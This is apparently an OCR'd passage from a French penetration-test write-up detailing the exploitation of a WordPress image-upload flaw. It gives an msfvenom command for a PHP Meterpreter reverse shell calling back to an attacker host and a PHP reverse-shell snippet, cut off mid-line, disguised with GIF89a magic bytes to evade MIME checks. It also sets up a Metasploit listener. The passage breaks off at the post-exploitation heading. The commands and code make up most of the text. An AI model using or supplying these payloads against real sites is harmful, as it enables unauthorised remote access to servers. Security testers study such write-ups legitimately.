 # 4. Exploitation Détaillée

Notre phase d'exploitation s'est concentrée sur la vulnérabilité découverte dans le système de commentaires WordPress. Plus précisément, nous avons identifié un point d'entrée critique sous le lien /assets/fonts/blog/?p=1#comment-1, où la fonctionnalité d'upload d'images présente une faiblesse exploitable.

## A. Préparation du Payload

La création d'un payload approprié nécessite une approche méthodique pour contourner les mécanismes de sécurité en place. Nous avons développé un shell PHP spécialement conçu pour cette exploitation :

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.154 LPORT=443 -o /home/reverse.php
```

* -p php/meterpreter/reverse_tcp : Spécifie le payload PHP Meterpreter reverse TCP
* LHOST=192.168.1.154 : Spécifie l'adresse IP de l'attaquant
* LPORT=443 : Spécifie le port d'écoute de l'attaquant
* -o /home/reverse.php : Spécifie le chemin de sortie du fichier PHP

Le payload a ensuite été modifié pour inclure des techniques d'évasion spécifiques :

```php
GIF89a; <-- Magic Numbers
/*<?php /**/ error_reporting(0); $ip = '192.168.1.154'; $port = 443; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f>
```

Cette modification est stratégique pour plusieurs raisons :
1. L'ajout des Magic Numbers permet de contourner la vérification MIME type.
2. La désactivation du reporting d'erreurs rend l'exploitation plus discrète.
3. La structure modulaire du code assure une meilleure persistance.

## B. Configuration du listener

Pour intercepter la connexion reverse shell, nous avons configuré un listener Metasploit avec les paramètres appropriés :

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.1.154
set LPORT 443
run
```

Cette configuration permet d'écouter les connexions entrantes sur le port 443 et de recevoir le shell Meterpreter une fois l'exploitation réussie.

## C. Post-Exploitation
